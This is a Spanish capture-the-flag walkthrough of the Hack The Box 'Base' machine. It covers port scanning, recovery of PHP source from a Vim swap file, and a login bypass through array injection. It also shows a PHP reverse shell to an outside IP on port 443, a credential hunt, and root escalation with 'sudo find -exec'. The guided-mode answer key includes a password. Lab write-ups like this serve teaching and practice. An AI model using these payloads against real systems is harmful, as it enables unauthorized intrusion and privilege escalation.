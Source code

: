 ```yaml
---
title: Writeup base - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - base
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina base en Hack The Box.
keywords:
  - writeup base
  - hack the box base
  - resolución máquina base
  - base hack the box
  - htb base
---
```

--------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/SuperFacil/Tier+2/Linux/Base)
- 📺 **Resolución en vivo (completa)**: [Link](https://www.youtube.com/watch?v=Trejh7Fih34)
- 🧠 **Explicación resumida**: [Link](https://www.youtube.com/watch?v=ZWIzmLDjlTo)

---

#veryeasy #linux #nmap #ping #arbitraryfileupload #whatweb #arrayinjection #cat #strings #burpsuite #tratamientotty #sudo-l #grep  #abusobinariofind 

-----
# Guided Mode

1)¿Qué dos puertos TCP están abiertos en el host remoto?
	22,80

2)¿Cuál es la ruta relativa en el servidor web para la página de inicio de sesión?
	/login/login.php

3)¿Cuántos ficheros hay en el directorio «/login»?
	3

4)¿Cuál es la extensión de un archivo swap?
	.swp
	
5)¿Qué función PHP se utiliza en el código backend para comparar el nombre de usuario y la contraseña enviados por el usuario con el nombre de usuario y la contraseña válidos?
	strcmp()

6)¿En qué directorio se almacenan los archivos cargados?
	\_uploaded

7)¿Qué usuario existe en el host remoto con un directorio home?
	john

8)¿Cuál es la contraseña del usuario presente en el sistema?
	thisisagoodpassword

9)¿Cuál es la ruta completa del comando que el usuario john puede ejecutar como usuario root en el host remoto?
	/usr/bin/find

10)¿Qué acción puede utilizar el comando find para ejecutar comandos?
	exec

-----
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.95.184
nmap -p- --open -vvv --min-rate 5000 -sS -n -Pn 10.129.95.184 -oG allPorts
extractPorts allPorts
nmap -sCV -p22,80 10.129.95.184 -oN target
```


![[Base1.png]]
![[Base2.png]]
*TTL:* Maquina linux
*Puertos:*
	`22`SSH
	`80`HTTP

--------
# [[Whatweb-wappalyzer]]

```shell
whatweb http://10.129.95.184/
```
![[Base3.png]]

![[Base21.png]]

Nos da el mail info@base.htb, asi que podria existir un dominio base.htb

-------
# [[Array Injection]]

Fui a la parte de login y me redirige a este link
![[Base22.png]]

![[Base7.png]]
Asi que vamos al directorio */login* para ver si encontramos algo y descargamos el archivo .swp que se encuentra en ese directorio
![[Base6.png]]
Ahora si cateamos el archivo nos va a aparecer que es un binario. Lo que vamos a hacer es abrirlo con ``nvim login.php.swp``

![[Base8.png]]
y vemos que tiene muchas cadenas que no se pueden leer
![[Base9.png]]
Asi que vamos a usar [[strings]] con el comando `strings login.php.swp > loginlimpio.txt` para sacar las cadenas legibles y el output lo voy a poner en un archivo que se llama loginlimpio.txt 
![[Base10.png]]
y ahora lo abrimos con [[cat]] usando el comando `cat loginlimpio.txt -l java` 
	Aclaracion: Si bien no es java el lenguaje, usa los colores bastante bien para separarlo y entender mejor el codigo
	
![[Base23.png]]

Despues de analizar el archivo, nos muetra que nos da que la sesion es valida con $\_SESSION antes de verificar si el usuario/contraseña es correcto, y que lo primero que hace es redirigir el usuario a upload.php sin importar si las credenciales son correctas o no
```
header("Location: /upload.php");
  72   │             $_SESSION['user_id'] = 1;
  73   │         if (strcmp($password, $_POST['password']) == 0) {
  74   │     if (strcmp($username, $_POST['username']) == 0) {
  75   │     require('config.php');
  76   │ if (!empty($_POST['username']) && !empty($_POST['password'])) {
  77   │ session_start();
```

Interceptamos con burpsuite la peticion

![[Base12.png]]
Y cambiamos la ultima linea por `username[]=test&password[]=pass` para romper la cambiar la peticion de un string a un array para romperla
Asi ganamos acceso a la pagina upload.php
![[Base13.png]]

----------
# [[Arbitrary file upload]]

Con el diccionario de seclists no vamos a encontrar nunca el directorio donde se suben los archivos que es http://10.129.95.184/_uploaded/ ya que la palabra uploaded no aparece en los diccionarios. Para poder encontrarla vamos a usar [[nvim]] y ponemos `nvim /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt` y agregamos en las primeas lineas *\_uploaded*

Vamos a usar [[Gobuster]] para enumerar directorios `gobuster dir -u http://10.129.95.184/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt --add-slash -t 60`
![[Base15.png]]

--------
### Sacamos una [[Reverse shell]] 
Creamos un archivo con nombre rever.php
```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.21/443 0>&1'");
?>
```

Mientras estamos en escucha con [[nc -nlvp 443]], vamos a abrir el archivo desde http://10.129.95.184/_uploaded/rever.php
![[Base14.png]]
Y ya estamos adentro de la maquina

--------------
# [[Tratamiento de la TTY]]

-------
# Escalada al usuario john buscando [[Posibles archivos con contraseñas]]

Buscamos con [[grep]]`grep -riE "password|.*password|password.*" ` desde el directorio /var/www/html/login
Y encontramos la contraseña *thisisagoodpassword*
![[Base16.png]]
Y si vamos al directorio de *home* vemos que existe el usuario *john*

![[Base25.png]]
Asi que tenemos las credenciales:
	john:thisisagoodpassword
### Conexion por [[ssh]]
```shell
ssh john@10.129.95.184 -p 22
```
![[Base18.png]]
Ya tenemos primera flag de intrusion

------
# Escalada de privilegios a root con [[Abuso de Sudo]] del [[Binario find]]

Con `sudo -l` vemos que el binario /usr/bin/find se ejecuta como root
![[Base19.png]]


[Articulo de gtfobinds donde se saco este payload](https://gtfobins.github.io/gtfobins/find/#suid)
```
sudo /usr/bin/find . -exec /bin/bash -p \; -quit
```
![[Base20.png]]
Ya podemos catear las flags para terminar la maguina

----------
# Notas

Los archivos `.swp` los crea Vim para guardar cambios temporales mientras editás, permitiendo recuperar datos si se cierra inesperadamente. También evitan que se edite el mismo archivo desde dos lugares a la vez. Podés borrarlos si estás seguro de que Vim ya no está usando el archivo.


---------
# Creditos
Writeup oficial HackTheBox